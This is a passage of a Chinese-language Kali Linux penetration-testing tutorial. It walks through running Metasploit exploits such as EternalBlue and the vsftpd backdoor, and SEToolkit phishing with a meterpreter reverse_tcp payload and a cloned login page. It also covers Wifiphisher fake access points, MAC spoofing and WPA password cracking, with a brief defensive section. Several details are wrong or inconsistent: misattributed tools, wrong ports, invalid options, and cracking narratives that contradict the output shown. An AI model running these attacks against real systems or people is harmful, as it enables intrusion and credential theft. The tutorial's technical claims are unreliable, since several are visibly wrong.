在此示例中，加载了不同的 Metasploit 模块 `auxiliary/scanner/ssl/openssl_heartbleed`，它专门设计用于检测 Heartbleed 漏洞。目标 IP 地址被设置为 `192.168.1.100`，要扫描的端口范围设置为 `443`。扫描期间使用的线程数设置为 `10`。然后通过输入 `run` 开始扫描。结果显示目标易受 Heartbleed 漏洞影响，并指出了正在使用的 Web 服务器软件以及 SSL/TLS 版本和算法。

## 操作系统指纹识别

操作系统指纹是一种用于识别目标系统上运行的操作系统的技术。此信息可用于确定目标系统的潜在漏洞，以及在进一步的安全测试中使用的适当工具和技术。

Kali Linux 使用 `p0f` 工具进行操作系统指纹识别。`p0f` 是一个被动操作系统指纹识别工具，可以通过分析网络流量确定目标系统的操作系统、供应商和版本。

要在 Kali Linux 中使用 `p0f`，你只需打开终端并输入 `p0f` 后跟目标 IP 地址。例如：

```
p0f 192.168.1.100
[+] Listening on eth0 (up)
[*] 192.168.1.100 - Windows 7 or 2008 R2 - 6.1 (64-bit)
```

在此示例中，`p0f` 被用于分析指向目标 IP 地址 `192.168.1.100` 的网络流量，结果显示目标运行在 Windows 7 或 Windows Server 2008 R2，版本为 6.1，64 位模式。

除了 `p0f` 之外，还有其他几种可用于操作系统指纹识别：

- **Nmap**：一个流行的开源扫描器，可以使用已知的网络特征来识别操作系统。

```
nmap -O [target IP or hostname]
```

例如：

```
nmap -O 192.168.1.100
```

此命令将扫描 IP 地址 `192.168.1.100` 并尝试确定操作系统。为了更高级地使用 Nmap 进行操作系统指纹识别，可以使用以下选项：

- `-T[0-5]`：此选项设置扫描的时间模板，0 最慢，5 最快。默认值为 3。
- `--osscan-limit`：此选项限制 Nmap 用于操作系统指纹识别的资源。
- `--osscan-guess`：此选项即使指纹不是 100% 也允许 Nmap 猜测操作系统。
- `--version-all`：此选项对所有端口启用版本检测，而不仅仅是已知服务的端口。

使用 Nmap 进行操作系统指纹识别的高级示例：

```
nmap -O -T4 --osscan-limit --osscan-guess --version-all 192.168.1.100
```

此命令将使用时间模板 `4`扫描 IP 地址 `192.168.1.100`，限制用于操作系统指纹识别的资源，即使指纹不是 100% 也猜测操作系统，并对所有端口启用版本检测。

- **Xprobe2**：一种用于主动操作系统指纹识别的开源工具。`Xprobe2` 向目标系统发送特制的数据包并分析响应以确定操作系统。

使用 `Xprobe2` 进行操作系统指纹识别的基本命令是：

```
xprobe2 [target IP or hostname]
```

例如：

```
xprobe2 192.168.1.100
```

此命令将扫描 IP 地址 `192.168.1.100` 并尝试确定目标运行的操作系统。你可以使用以下选项来修改 `Xprobe2` 的行为：

- `-v`：此选项启用详细输出，显示更多关于目标系统的信息。
- `-t [number]`：此选项设置扫描的超时值，数字为等待目标系统响应的秒数。

这是一个使用 `Xprobe2` 进行操作系统指纹识别的高级示例：

```
xprobe2 -v -t 5 192.168.1.100
```

此命令将扫描 IP 地址 `192.168.1.100`，启用详细输出并设置超时值为 5 秒。


## O scan
`O scan`: 一种使用主动技术进行操作系统指纹识别的工具。`O scan` 向目标系统发送一系列数据包并分析响应以确定操作系统。

使用 `oscanner` 进行操作系统指纹识别的基本命令是：

```
oscanner [目标 IP 地址或主机名]
```

例如：

```
oscanner 192.168.1.100
```

此命令将扫描目标 IP 地址 `192.168.1.100` 并尝试确定运行在目标机器上的操作系统。`Oscanner` 使用主动技术进行操作系统指纹识别。

你可以使用以下选项来修改 `Oscanner` 的行为：

- `-p`: 此选项指定扫描时针对的特定端口。
- `-t`: 此选项设置扫描的超时值。
- `-v`: 此选项启用详细输出，将显示有关目标系统的额外信息。

以下是一个用于 `Oscanner` 操作系统指纹识别的更高级的命令示例：

```
oscanner -p 80 -t 5 -v 192.168.1.100
```

此命令将扫描目标 IP 地址 `192.168.1.100` 的 `80` 端口，超时值为 `5` 秒，并启用了详细输出。

# Winfingerprint
`Winfingerprint`: 一个基于 Windows 的工具，用于对 Windows 系统进行操作系统指纹识别。`Winfingerprint` 使用已知网络特征数据库来识别目标系统的操作系统。

`Winfingerprint` 是一个基于 Windows 的操作系统指纹识别工具，且没有命令行界面。要使用 `Winfingerprint`，你必须在 Windows 机器上运行该工具并拥有管理员权限。

### 使用 Winfingerprint 的步骤：
1. 在 Windows 机器上下载并安装 `Winfingerprint`。
2. 打开 `Winfingerprint` 应用程序。
3. 在 `"Target"` 部分，输入你想要扫描的目标系统的 IP 地址或主机名。
4. 在 `"Scan Options"` 部分，选择你想要进行的扫描类型（例如：OS 指纹识别、TCP  banner 抓取等）。
5. 点击 `"Start Scan"` 按钮开始扫描。
6. `Winfingerprint` 将执行扫描并在 `"Results"` 部分显示结果。

## 漏洞扫描 (Vulnerability Scanning)
漏洞扫描是使用自动化工具识别目标系统中已知漏洞的过程。这些信息可以用于确定修复工作的优先级，并确保关键漏洞得到及时处理。

### 使用 Nmap 进行漏洞扫描
1. 在 Kali Linux 中打开终端或命令提示符窗口。
2. 输入以下命令对 IP 地址为 `10.0.0.1` 的目标系统进行基础 `nmap` 开放端口扫描：
```
nmap 10.0.0.1
```
3. 若要进行更全面的扫描（包括服务和版本检测），可以使用以下命令：
```
nmap -sS -sV 10.0.0.1
```
4. 若要扫描特定漏洞，可以使用 `Nmap` 的 `NSE`（Nmap 脚本引擎）脚本。例如，要扫描 SSL/TLS 协议中的已知漏洞，可以使用以下命令：
```
nmap --script ssl-enum-ciphers 10.0.0.1
```
5. 若要扫描特定服务或协议的漏洞，可以使用 `Nmap` 的 `NSE` 脚本。例如，要扫描微软远程桌面协议（RDP）的漏洞，可以使用以下命令：
```
nmap --script rdp-enum-encryption 10.0.0.1
```

### 使用 OpenVAS 进行漏洞扫描
1. 在 Kali Linux 中打开终端或命令提示符窗口。
2. 通过输入以下命令启动 `OpenVAS` 服务：
```
openvas-start
```
3. 打开浏览器并导航到 `https://localhost:9392` 以访问 `OpenVAS` Web 界面。
4. 使用默认凭据（用户名：`admin`，密码：`admin`）登录 `OpenVAS` Web 界面。
5. 登录后，你就可以创建和管理扫描、查看扫描结果并配置扫描设置。
6. 要开始新扫描，点击 `OpenVAS` Web 界面上的 `"Tasks"` 标签，然后点击 `"New Task"` 按钮。
7. 在 `"New Task"` 窗口中为任务命名并选择要扫描的目标（IP 地址或主机名）。你还可以配置扫描设置，例如使用的插件、并发扫描的最大主机数以及并发运行的插件最大数量。
8. 点击 `"Create"` 按钮开始扫描。
9. 扫描完成后，可以通过点击 `OpenVAS` Web 界面上的 `"Results"` 标签查看结果。结果将显示漏洞列表及相关的风险等级。

### 使用 Nessus 进行漏洞扫描
`Nessus` 是一款商业漏洞扫描器，Kali Linux 默认不包含。你可以从 Tenable 购买许可，或使用 `https://www.tenable.com/products/nessus-home` 免费版扫描器。

如果你已安装了 `Nessus`，这里是使用它进行漏洞扫描的示例：
1. 在 Kali Linux 中打开终端。
2. 输入以下命令启动服务：
```
nessus
```
3. 打开浏览器并导航到 `https://localhost:9392`。
4. 登录后，你将能够创建和管理扫描、查看结果并配置设置。
5. 点击 `"Scans"` 标签，然后点击 `"New Scan"` 按钮。
6. 在 `"New Scan"` 窗口中，为扫描命名并输入要扫描的目标范围（IP 地址或主机名）。
7. 配置扫描策略，例如插件插件等。
8. 点击 `"Launch"` 按钮开始扫描。
9. 扫描完成后，点击 `"Results"` 标签查看结果。结果将显示漏洞列表和风险等级。

### Metasploit 进行漏洞扫描
1. 启动 `Metasploit Framework` 控制台。
2. 使用以下命令加载 SMB 版本扫描模块：
```
use auxiliary/scanner/smb/smb_version
```
3. 使用以下命令设置目标：
```
set RHOSTS 192.168.1.0/24
```
4. 输入以下命令运行 SMB 版本扫描：
```
run
```
5. 扫描将运行并实时显示结果。示例如下：
```
[*] 192.168.1.1:445 - Host is likely VULNER to MS08-067
[*] 192.168.1.2:445 - Host is likely VULNER to MS17-010
[*] 192.168.1.3:445 - Host is NOT vulnerable
```

输出显示前两个系统（`192.168.1.1` 和 `192.168.1.2`）的 SMB 版本可能受到 `MS08-067` 和 `MS17-010` 漏洞的影响。第三个系统（`192.168.1.3`）不受影响。

第一个系统（`192.168.1.1`）可能受到 `MS08-067` 漏洞的影响。该漏洞利用旧版本 Windows SMB 服务中的漏洞，允许攻击者在不受授权的情况下执行任意代码。

第二个系统（`192.168.1.2`）可能受到 `MS17-010` 漏洞的影响。该漏洞利用新版本 Windows SMB 服务中的漏洞，允许攻击者在系统上执行代码或向网络上的其他系统传播恶意软件。

第三个系统（`192.168.1.3`）不受影响。这意味着该系统的 SMB 服务版本或配置不受 `MS08-067` 和 `MS17-010` 漏洞的影响。

仅仅因为系统对本次扫描中测试的漏洞不敏感，并不意味着它是安全的。系统中可能存在其他未经过测试的漏洞。此外，SMB 服务可能已被禁用，或者系统的配置导致该服务无法从网络访问。


为了全面评估系统的安全性，可能需要额外的测试和分析，例如网络映射、端口扫描、服务枚举和漏洞测试。

这里是使用 Metasploit 进行漏洞扫描的另一个示例：

1. 启动 Metasploit Framework 控制台。
2. 运行以下命令加载 HTTP 版本扫描模块：
   `use auxiliary/scanner/http/http_version`
3. 运行以下命令配置 HTTP 版本扫描器的选项：
   `set RHOSTS 192.168.1.0/24`
4. 运行以下命令启动 HTTP 版本扫描：
   `run`
5. 扫描将运行并实时显示结果。示例输出可能如下：

```
[*] 192.168.1.1:80 - Apache 2.4.10
[*] 192.168.1.2:80 - IIS 7.5
[*] 192.168.1.3:80 - Nginx 1.10.0
```

输出显示了每个系统的 HTTP 服务器软件和版本。这些信息对于识别漏洞系统或确定使用合适的利用程序非常有帮助。

第一个系统 (`192.168.1.1`) 正在运行 `Apache 2.4.10`。了解 HTTP 服务器软件的版本有助于确定该软件中是否存在已知漏洞，以及它是否会成为进一步分析的目标。

第二个系统 (`192.168.1.2`) 正在运行 `IIS 7.5`。同样，了解 HTTP 服务器软件的版本有助于确定是否存在已知漏洞，以及它们是否会成为进一步分析的目标。

第三个系统 (`192.168.1.3`) 正在运行 `Nginx 1.10.0`。了解 HTTP 服务器软件的版本有助于确定是否存在已知漏洞，以及它是否会成为进一步分析的目标。

# 社会工程学

社会工程学被用于通过间接手段收集有关目标系统或网络的信息。这这可能包括钓鱼攻击、电话或其他旨在欺骗用户泄露敏感信息的操纵手段。

### 安装 Setoolkit

```
sudo apt-get install setoolkit
```

* **启动 SEToolkit**: 安装后，通过输入以下命令启动 SEToolkit：
  ```
  setoolkit
  ```
* **选择钓鱼选项**: 你将在 SEToolkit 中看到各种选项。选择钓鱼选项。在示例中，我们将选择选项 3，“Website Attack Vectors（网站攻击向量）”。
* **选择钓鱼技术**: 从网站攻击向量列表中，选择你想要使用的钓鱼技术。在示例中，我们将选择选择选项 2，“Harvester Attack Method（收割器攻击方法）”。
* **配置钓鱼攻击**: 现在你将被要求配置钓鱼攻击。你需要提供正在使用的机器的 IP 地址、端口号以及你想要克隆的 URL。你可以克隆真实的网站以使钓鱼尝试更有说服力。
* **生成钓鱼页面**: 一旦你提供了所有所需信息，SEToolkit 将为你生成钓鱼页面。你现在可以将此页面托管在 Web 服务器上并将链接发送给目标。
* **收集凭据**: 一旦目标在钓鱼页面上输入他们的凭据，SEToolkit 将捕获并存储它们，供你以后访问。

```
$ sudo apt-get install setoolkit
$ setoolkit
```

```
< SEToolkit >
----------
          \   ^__^
          \  (oo)\_______
               (__)\       )\/\
                  ||----w |
                  ||      ||
Select from the menu:
1) Social-Engineering Attacks
2) Fast-Track Penetration Testing
3) Website Attack Vectors
4) Installer
5) Update the Metasploit Framework
6) Exit
Enter number (1-6): 1

____________
< Social-Engineering Attacks >
----------
          \   ^__^
          \  (oo)\_______
               (__)\       )\/\
                  ||----w |
                  ||      ||
1) Spear-Phishing Attack Vectors
2) Website Attack Vectors
3) Infectious Media Generator
4) Create a Payload and Listener
5) Mass Mailer Attack
6) Arduino-Based Attack Vector
7) Wireless Access Point Attack Vector
8) QRCode Generator Attack Vector
9) Powershell Attack Vectors
10) Third Party Modules
11) Return back to the main menu
Enter number (1-11): 1

____________
< Spear-Phishing Attack Vectors >
----------
          \   ^__^
          \  (oo)\_______
               (__)\       )\/\
                  ||----w |
                  ||      ||
1) Microsoft Office Macro-Enabled Document
2) Web Templates
3) Social Engineering Template
4) Return back to the main menu
Enter number (1-4): 3

SET is configuring the Social Engineering Template
What is the IP address of the target website?: 192.168.1.10 What port do you want to use for the listener [80]: 80 What payload do you want to generate: windows/meterpreter/reverse_tcp What is the file output name for the payload [output]: phishing_payload

The SEToolkit will now generate the phishing website and start a handler to listen for incoming connections.
SET is starting the web server.
SET is starting the Metasploit listener.

要开始攻击，请将 URL 发给目标：
`http://192.168.1.10:80`

请注意，将 SEToolkit 和其他社会工程学工具用于恶意是违法且不道德的。上述示例仅供教育和意识参考。

### SEToolkit 中的凭据收割器

```
$ sudo apt-get install setoolkit
$ setoolkit
```

```
< SEToolkit >
----------
          \   ^__^
          \  (oo)\_______
               (__)\       )\/\
                  ||----w |
                  ||      ||
Select from the menu:
1) Social-Engineering Attacks
2) Fast-Track Penetration Testing
3) Website Attack Vectors
4) Installer
5) Update the Metasploit Framework
6) Exit
Enter number (1-6): 3

___________
< Website Attack Vectors >
----------
          \   ^__^
          \  (oo)\_______
               (__)\       )\/\
                  ||----w |
                  ||      ||
Select an attack:
1) Applet Attack
2) Credential Harvester Method
3) Jacking Method
4) Multi-Attack
5) Return to menu
Enter number (1-5): 2

Credential Harvester Method
This attack utilizes a fake page to harvest credentials.
Enter the IP address for the harvester: 192.168.1.0
Enter the port to use [80]: 80
Enter the URL to clone (ex: google.com): https://google.com
The fake page has been set up on 192.168.1.0:80.
```

```
$ macchanger --help
Usage: macchanger [options] <interface>
Options:
-h, --help display this help and exit
-v, --version display and exit
-s, --show the current MAC
-e, --enable/disable the interface
-r, --random MAC
-l, --list available interfaces
-p, --permanent change MAC in a way (not until reboot)
-A, --ap-mac mimic the MAC of an Access Point
-C, --create=<vend> create a MAC of a vendor abbreviated name or the first 6 characters of the MAC

Here's an example of changing the MAC of the wlan0 interface to a random address:
$ sudo macchanger -r wlan0
Current MAC: 00:22:44:66:88:99
Faked MAC: 12:34:56:78:9A:BC
在此示例中使用了 -r 参数来指定随机 MAC，并指定了 wlan0 接口。Current MAC 显示了接口的原始 MAC，Faked MAC 显示了新的随机 MAC。
```

### Wifiphisher

```
$ sudo apt-get install wifiphisher
$ wifiphisher
```


### Wifiphisher 使用示例

[1] 重定向到伪造 AP
[2] 钓鱼攻击
[3] 退出

输入你想要运行的方法数字：`2`

```
  __
(_  _  _  _  _  _  _  _  _  _
(_)(_)(_)(_)(_)(_)(_)(_)
```

[1] 热点攻击
[2] 社会工程攻击
[3] 返回主菜单

输入你想要运行的方法数字：`2`

```
      .#####.    .#####.
     ##      ## ##      ##
   #          #          #
   #          #          #
   #    ####  #    ####  #
   #    #      #    #      #
   #    ###    #    ###    #
     ##      ## ##      ##
      .#####.    .#####.
```

[1] 重定向到伪造 AP
[2] 钓鱼攻击
[3] 退出

输入你想要运行的方法数字：`1`

选择目标网络：

[0] 我的网络
[1] 测试网络

输入网络的数字：`1`

已选网络：测试网络

[1] 启动攻击
[2] 返回主菜单

输入你想要运行的方法数字：`1`

```
[*] 正在启动攻击...
[*] 伪造 AP 已启动并运行！
[*] 钓鱼攻击正在运行！
```

在此示例中，启动了 `Wifiphisher`，用户选择了 `钓鱼攻击` 选项。然后用户选择了 `重定向到伪造 AP` 选项，并选择`测试网络` 作为目标。随后启动了攻击，`Wifiphisher` 创建了一个伪造接入点并针对目标网络启动了钓鱼攻击。

## Maltego 使用

➢ Maltego:

```
$ sudo apt-get install maltego
$ maltego

欢迎使用 Maltego 控制台客户端。
输入 help 查看命令列表。
> set server https://www.paterva.com/CTAS/
> set apiKey <API_KEY>
> entities add dns.domain example.com
> entities list
[*] ID: 1
[*] Type: dns.domain
[*] Value: example.com
> transforms run dns.subdomains
[*] 转换完成。结果：
+--------------------------------------+
| Entity: dns.subdomain              |
| Value: ftp.example.com             |
+--------------------------------------+
| Entity: dns.subdomain              |
| Value: www.example.com             |
+--------------------------------------+
| Entity: dns.subdomain              |
| Value: mail.example.com             |
+--------------------------------------+
...
```

启动了 `Maltego`，用户将服务器设置为 `https://www.paterva.com/CTAS/` 并将 API 密钥设置为 `<API_KEY>`。然后用户将 `example.com` 域名作为实体添加并列出了实体。最后，用户运行了 `dns.subdomains` 转换，以收集有关域名 `example.com` 子域名的信息。

# 安全最佳实践：检测与防御

你可以通过以下步骤检测并防止网络扫描和侦察，从而减少安全泄露风险并保护敏感信息和系统：

- **防火墙**：部署防火墙以控制入出网络流量，并限制对信任源的访问。
- **访问控制**：实施身份验证、授权和加密等访问控制措施，确保只有授权的用户和设备才能访问敏感信息和系统。
- **入侵检测系统 (IDS)**：利用 `IDS` 监控网络活动是否存在未经授权的访问或可疑行为的迹象。
- **网络分**：将网络划分为较小的段，以限制安全泄露的潜在影响并增加攻击者访问敏感信息的难度。
- **定期扫描**：使用 `Nessus`、`OpenVAS` 或 `Qualys` 等工具定期进行网络扫描，识别漏洞和潜在威胁。
- **保持软件更新**：定期更新所有软件和系统，以确保已知漏洞已修复。
- **监控日志**：监控日志以发现异常活动（如重复登录尝试），并在必要时采取适当行动。
- **员工培训**：教育员工网络扫描的危害，以及保持警惕和报告可疑活动的重要性。

## 漏洞评估与利用

漏洞评估和利用是渗透测试的两个重要方面，用于识别目标系统或网络中的缺陷。`Kali Linux` 是一种流行的操作系统，广泛用于伦理黑客攻击和渗透测试。在本章，我们将讨论 `Kali Linux` 中用于漏洞评估和利用的各种工具和技术。

### 漏洞评估
漏洞评估涉及识别和评估系统或网络中存在的风险或缺陷。这样做是为了理解目标的潜在风险并确定缓解策略。`Kali Linux` 提供了多种漏洞评估的工具，包括 `nmap`、`OpenVAS` 和 `Nessus`。

### Nmap
`nmap` 是一个用于网络探索和安全审计的流行开源工具。它可以用于对目标系统或网络进行全面扫描，以识别开放端口、服务和其他信息。在 `Kali Linux` 中打开终端并输入 `nmap` 启动命令行界面。

要对目标主机进行基础扫描，输入 `nmap <目标 IP 或主机名>`：
```
nmap 192.168.1.1
```

要对目标主机进行全面扫描（包括服务和操作系统检测），输入 `nmap -A <目标 IP 或主机名>`：
```
nmap -A 192.168.1.1
```
`nmap` 扫描结果将显示目标主机 `192.168.1.1` 的开放端口、服务和其他信息。
```
nmap 192.168.1.1
Host scan for 192.168.1.1
Host is up (0.0029s latency).
Port scan result:
80/tcp open  Apache 2.4.41 Ubuntu
22/tcp open  OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
Service/version detection:
Linux 5.4
OS detection: Linux 5.4
```


### ExploitDB

ExploitDB 是一个用于渗透目标系统或网络的漏洞利用程序数据库。ExploitDB 中的利用程序可以与 `Metasploit` 或或其他利用工具结合使用。

利用漏洞的过程通常涉及以下步骤：

- **识别漏洞**：利用漏洞的第一步是识别它。这可以通过漏洞评估、渗透测试，或通过主动监控安全公告和漏洞报告来完成。
- **研究利用程序**：一旦识别出漏洞，下一步是研究现有的可用于利用该弱点的利用程序。这可以通过搜索在线资源来实现，例如常见漏洞与披露（`CVE`）数据库、`Exploit Database`，或与安全和黑客相关的论坛和讨论板。
- **测试利用程序**：在尝试利用漏洞之前，在受控环境中测试利用程序至关重要，以确保它按预期工作，且不会引起任何意外的后果。
- **利用漏洞**：一旦利用程序通过了测试和验证，就可以用来利用漏洞。这可能涉及运行脚本或执行有效负载以获取目标系统的访问权限。

### 示例 1

在 Kali Linux 中打开终端并输入以下命令启动 `Metasploit Framework`：

```bash
msfconsole
```

输入以下命令搜索匹配目标利用的利用程序：

```bash
search ssh
```

这将搜索 `Metasploit` 数据库中所有针对 `ssh` 的可用利用程序。

输入以下命令选择一个要使用的利用程序：

```bash
use exploit/unix/ssh/libssh_auth_bypass
```

这将选择 `libssh_auth_bypass` 利用程序，该程序针对 `libssh` 中的一个已知漏洞。

输入以下命令设置目标主机：

```bash
set RHOST 192.168.1.1
```
这将目标主机设为 IP 地址 `192.168.1.1`。

输入以下命令启动利用程序：

```bash
run
```
这将启动利用程序并尝试获取目标主机的访问权限。

如果利用成功，`Metasploit` 将显示一条消息，表示会话已打开，攻击者已获得对目标系统的访问权限。攻击者随后可以与目标系统进行交互并执行各种操作，例如执行命令、上传或下载文件，或安装额外的工具或恶意软件。

### 示例 2

在 Kali Linux 中打开终端并输入以下命令启动 `Metasploit Framework`：

```bash
msfconsole
```

输入以下命令搜索匹配目标利用的利用程序：

```bash
search smb
```
这将搜索 `Metasploit` 数据库中所有针对 `SMB` 协议的可用利用程序。

输入以下命令选择一个要使用的利用程序：

```bash
use exploit/windows/smb/ms17_010_eternalblue
```
这将选择 `ms17_010_eternalblue` 利用程序，该程序针对 Microsoft Windows 中的一个已知漏洞。

输入以下命令设置目标主机：

```bash
set RHOST 192.168.1.100
```
这将目标主机设为 IP 地址 `192.168.1.100`。

输入以下命令启动利用程序：

```bash
run
```
这将启动利用程序并尝试获取目标主机的访问权限。

### 示例 3

在 Kali Linux 中打开终端并输入以下命令启动 `Metasploit Framework`：

```bash
msfconsole
```

输入以下命令搜索匹配目标利用的利用程序：

```bash
search ftp
```
这将搜索 `Metasploit` 数据库中所有针对 `FTP` 协议的可用利用程序。

输入以下命令选择一个要使用的利用程序：

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
这将选择 `vsftpd_234_backdoor` 利用程序，该程序针对 `vsftpd` FTP 服务器中的一个已知漏洞。

输入以下命令设置目标主机：

```bash
set RHOST 192.168.1.50
```
这将目标主机设为 IP 地址 `192.168.1.50`。

输入以下命令启动利用程序：

```bash
run
```
这将启动利用程序并尝试获取目标主机的访问权限。

### 示例 4

在 Kali Linux 中打开终端并输入以下命令启动 `Metasploit Framework`：

```bash
msfconsole
```

输入以下命令搜索匹配目标利用的利用程序：

```bash
search http
```
这将搜索 `Metasploit` 数据库中所有针对 `HTTP` 协议的可用利用程序。

输入以下命令选择一个要使用的利用程序：

```bash
use exploit/multi/http/phpmyadmin_setup_script_exec
```
这将选择 `phpmyadmin_setup_script_exec` 利用程序，该程序针对 `phpMyAdmin` 中的一个已知漏洞。

输入以下命令设置目标主机：

```bash
set RHOST 192.168.1.10
```
这将目标主机设为 IP 地址 `192.168.1.10`。

输入以下命令启动利用程序：

```bash
run
```
这将启动利用程序并尝试获取目标主机的访问权限。

## 日志检测

利用程序通常会在日志文件中留下迹，可用于检测其存在。以下是尝试检测利用程序时在日志中需要查找的内容示例：

- **异常网络流量**：利用程序通常会产生异常的网络流量模式，例如到特定 IP 地址的流量增加、与外部服务器的意外连接或在非工作期间流量增加。
- **意外的身份验证尝试**：利用程序可能尝试通过使用多个用户名和密码组合登录来获取系统的未授权访问权限。身份验证尝试的日志可以显示这些尝试的证据。
- **错误率增加**：利用程序可能导致系统崩溃或故障，从而导致日志中的错误率增加。
- **异常系统进程**：利用程序可能导致系统上运行异常进程，可以通过查看进程日志进行检测。
- **异常的文件更改**：利用程序可能会修改或在系统上添加文件，可以通过查看文件日志进行检测。
- **恶意负载**：利用程序可能会向系统投送恶意负载，如恶意软件或间谍软件。网络流量和文件活动日志可以显示这些负载的证据。

## 证据日志示例

- **Apache Web 服务器日志**：`Apache` 日志可以显示针对 Web 应用程序的利用证据。例如，`404` 错误消息数量的增加或对特定页面请求数量的突然激增可能表明存在尝试利用的行为。
- **Windows 事件日志**：`Windows` 事件日志可以显示针对 Windows 系统的利用证据。例如，指示特定进程崩溃或用户多次尝试使用错误密码登录的事件日志条目可能表明存在尝试利用的行为。
- **防火墙日志**：`Firewall` 日志可以显示基于网络的利用证据。例如，被拦截连接数量的增加或与外部 IP 地址的意外连接可能表明存在尝试利用的行为。
- **Syslog**：`Syslog` 是许多操作系统和网络设备使用的常用日志格式。`Syslog` 日志可以显示各种系统和设备上的利用证据。例如，显示意外网络连接或系统配置更改的 `Syslog` 条目可能表明存在尝试利用的行为。
- **入侵检测系统 (IDS) 日志**：`IDS` 日志可以显示被 `IDS` 检测到的利用。这些日志通常提供有关利用的详细信息，包括利用类型、目标系统和利用来源。
- **杀毒软件日志**：`Antivirus` 日志可以显示被杀毒软件检测并阻止的利用。这些日志通常提供有关利用类型以及被利用针对的文件或进程的信息。
- **DNS 日志**：`DNS` 日志可以显示针对 `DNS` 服务器的利用证据。例如，对特定域名的请求数量增加或 DNS 记录的意外更改可能表明存在尝试利用的行为。


## 漏洞扫描器

漏洞扫描器：漏洞扫描器可用于检测和评估网络中存在的漏洞。这些信息可用于识别并优先考虑所需的补丁和修复，以防止漏洞利用。

端点安全软件：端点安全软件可以通过监控系统活动、检查文件是否存在恶意软件迹象以及拦截恶意流量来检测并防止攻击。

网络安全设备：防火墙、入侵防御系统和网络访问控制系统等网络安全设备可以通过监控网络流量和控制对系统的访问，帮助检测和防止攻击。

安全信息和事件管理 (SIEM) 系统：`SIEM` 系统从各种数据源收集、关联并分析与安全相关的数据，以检测潜在的安全威胁，包括漏洞利用。

持续监控：对系统和网络进行定期监控和评估可以帮助实时检测攻击。这包括监控异常的网络流量模式、系统配置的变化以及系统上的新进程或文件。

定期打补丁：定期对系统和软件进行补丁更新可以通过解决已知漏洞来防止漏洞利用。

漏洞评估和漏洞利用是渗透测试的重要阶段，而 `Kali Linux` 为这两者提供了各种工具。了解如何使用这些工具对于执行有效的渗透测试以及识别目标系统或网络中的缺陷至关重要。



## 7. 无线攻击与渗透测试

无线网络已成为我们日常生活中广泛应用的技术，提供了访问互联网和其他在线资源的便利。尽管应用广泛，但无线网络并不能免受安全漏洞的影响。渗透测试是一种安全评估过程，通过模拟真实攻击来发现潜在的安全风险。

`Kali Linux` 为渗透测试和伦理黑客提供了全面的工具集。它被安全专家、伦理黑客和研究人员广泛用于评估目标系统的安全性。

### 无线网络基础

在学习无线攻击和渗透测试之前，具备无线网络基础知识是非常重要的。无线网络利用电波运行，并使用 `Wi-Fi`、`ZigBee` 和 `蓝牙` 等协议进行通信。这些协议提供了设备之间的通信，并允许数据在它们之间传输。

### 无线攻击

无线攻击是指破坏无线网络的安全性以未经授权访问敏感信息或资源的行为。

常见的无线攻击方法包括：

- **Wi-Fi 破解**：这涉及捕客户端设备与无线接入点之间的身份握手，然后使用专门的工具和技术破解密码。
- **流氓访问点**：这涉及创建一个看起来合法的伪接入点，诱骗用户连接到它并捕获其信息。
- **中间人攻击 (MitM)**：这涉及拦截并篡改两个设备之间的通信，使攻击者具备了窃取敏感信息或注入恶意代码的能力。

### 使用 Kali Linux 进行渗透测试

渗透测试是一个通过尝试渗透目标系统来评估其安全性的过程。渗透测试的目标是识别针对系统或网络的攻击，以便识别和评估任何安全漏洞。

`Kali Linux` 为无线渗透测试提供了一系列工具，包括：

- `Aircrack-ng`：该工具用于破解 `Wi-Fi` 密码并进行无线安全评估。
- `Wireshark`：该工具用于捕获和分析网络流量。
- `Reaver`：该工具用于破解无线接入点上的 `WPS` (`Wi-Fi 保护性设置`)密码。
- `Metasploit`：该工具用于利用目标系统中的漏洞。

### 无线攻击方法论

使用 `Kali Linux` 工具进行 `Wi-Fi` 破解。步骤示例：

1. 将网卡置于监听模式：`airodmon-ng <interface>`
2. 扫描可用网络：`airodump-ng <interface>`
3. 选择目标：`airodump-ng --channel <channel> --bssid <BSSID> -w <output> <interface>`
4. 捕获握手：`airodump-ng --wshake -r <output>`
5. 破解密码：`aircrack-ng -w <wordlist> <file>`

输出显示：
```
airodump-ng --channel <channel> --bssid <BSSID> -w <output> <interface>
```
当 `airodmon-ng` 运行时，会出现以下 `airodump-ng` 输出：
```
airodump-ng
```


在本示例中，正在使用 `aircrack-ng` 工具破解 WPA/WPA2 加密的 Wi-Fi 网络的密码。`aircrack-ng` 工具从 `capturefile-01.cap` 读取捕获的握手数据，并使用 `wordlist.txt` 中的字典尝试破解密码。输出显示，在约 4 分钟后成功恢复了密码，密码为“mypassword1”。还显示了主密钥（master key）、临时密钥（transient key）和 EAPOL HMAC，但这些并不是密码本身。

### 使用 `hashcat` 工具的示例：

```bash
$ hashcat -m 2500 capturefile-01.cap wordlist.txt

hashcat (v6.0.0) starting in benchmark mode...

OpenCL Platform #1: The pocl project
======================
Device #1: pthread-Intel(R) Core(TM) i7-1065G7 CPU @ 1.30GHz, 1024/4096 MB allocatable, 4MCU

Benchmarking started on Tue Feb 5 08:44:25 2023...
Hashmode: 2500 - WPA/WPA2 PSK (SHA-1)
Speed.#1.........: 107.1 kH/s (19.23ms) @ Accel:256 Loops:64 Thr:1024 Vec:8
...
Starting attack in benchmark mode...
[s]tatus [p]ause [r]esume [b]bypass [q]uit =>

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: WPA/WPA2 PSK (SHA-1)
Hash.Target......: capturefile-01.cap
Time.Started.....: Tue Feb 5 08:44:25 2023 (0 secs)
Time.Estimated...: Tue Feb 5 08:44:25 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  107.1 kH/s (19.23ms) @ Accel:256 Loops:64 Thr:1024 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2621440/2621440 (100.00%)
Rejected.........: 0/2621440 (0.00%)
Restore.Point....: 2621440/2621440 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mypassword1 -> mypassword4
Started: Tue Feb 5 08:44:25 2023
Stopped: Tue Feb 5 08:44:25 2023
```

在本示例中，正在使用 `hashcat` 工具破解 WPA/WPA2 PSK (SHA-1) 加密的 Wi-Fi 网络的密码。`hashcat` 工具正在对系统进行基准测试，以寻找破解密码的最佳参数，然后开始攻击。输出显示密码在 0 秒后成功恢复密，密码为“mypassword1”。攻击速度为 107.1 kH/s。

### 使用 `hashcat` 工具的示例：

```bash
$  hashcat -m 2500 capturefile-01.hccapx wordlist.txt -o cracked.txt
